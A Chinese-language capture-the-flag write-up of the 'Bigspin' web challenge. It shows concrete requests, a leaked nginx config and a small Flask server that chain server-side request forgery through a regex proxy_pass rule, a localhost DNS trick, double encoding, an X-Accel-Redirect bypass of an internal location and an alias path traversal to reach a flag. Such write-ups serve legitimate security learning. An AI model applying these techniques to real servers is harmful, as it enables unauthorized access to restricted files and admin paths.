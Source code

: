 # Bigspin

- 題目拿到有四個連結: `/admin`, `/uberadmin`, `/user`, `/pleb`
    - `/admin`噴404
    - `/pleb`正常顯示
    - 其他噴403 
- 把`/pleb`內容拿去google，可以發現是`example.com`的內容
- Fuzzing一波可以發現`/pleb`可能背後做了某種proxy:
    - `/pleb./` => 正常
    - `/ple%62/` => 正常
    - `/pleb` => 404
    - `/pleb:` => 500
    - `/pleb../` => 502
    - `/pleba/` => 502
    - ...
- 猜測背後可能是做類似以下的Proxy rule:
    - `/pleb[INPUT]` => `example.com[INPUT]`
    - 用DNS Log測試: `/pleb.kaibro.tw`
    - 會收到`example.com.kaibro.tw`的Request，證實猜測是對的
- 接著設定`example.com.gg.kaibro.tw`指向`127.0.0.1`
    - 訪問`/pleb.gg.kaibro.tw/user/`就可以繞過限制惹
    - `/user/`底下有`nginx.c%C3%B6nf%20`
    - 用Double encoding `/pleb.gg.kaibro.tw/user/nginx.c%25C3%25B6nf%2520`可以把這個檔案讀出來:

```
worker_processes 1;
user nobody nobody;
error_log /dev/stdout;
pid /tmp/nginx.pid;
events {
  worker_connections 1024;
}

http {

    # Set an array of temp and cache files options that otherwise defaults to
    # restricted locations accessible only to root.

    client_body_temp_path /tmp/client_body;
    fastcgi_temp_path /tmp/fastcgi_temp;
    proxy_temp_path /tmp/proxy_temp;
    scgi_temp_path /tmp/scgi_temp;
    uwsgi_temp_path /tmp/uwsgi_temp;
    resolver 8.8.8.8 ipv6=off;

    server {
        listen 80;

        location / {
            root /var/www/html/public;
            try_files $uri $uri/index.html $uri/ =404;
        }

        location /user {
            allow 127.0.0.1;
            deny all;
            autoindex on;
            root /var/www/html/;
        }

        location /admin {
            internal;
            autoindex on;
            alias /var/www/html/admin/;
        }

        location /uberadmin {
            allow 0.13.3.7;
            deny all;
            autoindex on;
            alias /var/www/html/uberadmin/;
        }

        location ~ /pleb([/a-zA-Z0-9.:%]+) {
            proxy_pass   http://example.com$1;
        }

        access_log /dev/stdout;
        error_log /dev/stdout;
    }

}
```

- 可以發現`/admin`是`internal;`，所以直接訪問會噴404
- 而`uberadmin`限制IP為`0.13.3.7`，基本上也很難直接繞過
- 最後想到Nginx的`X-Accel-Redirect` header可以用來繞過`internal`
- 跑一個Server起來給`proxy_pass`送這個header，就能繞過`/admin`限制了:

```python
#!/usr/bin/env python3
from flask import Flask, current_app, request, make_response

app = Flask(__name__)

@app.route('/')
def index():
    response = make_response()
    response.headers['X-Accel-Redirect'] = '/admin/flag.txt'
    return response

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, threaded=True)
```

- `/admin/flag.txt`: `hmmm, should admins really get flags? seems like an uberadmin thing to me`
    - 看來必須讀`/uberadmin`
- 可以發現因為location和alias不一致(一個有結尾的`/`，一個沒有)的關係，存在Path Traversal的問題
    - `/admin../uberadmin/flag.txt`
    - `midnight{y0u_sp1n_m3_r1ght_r0und_b@by}`

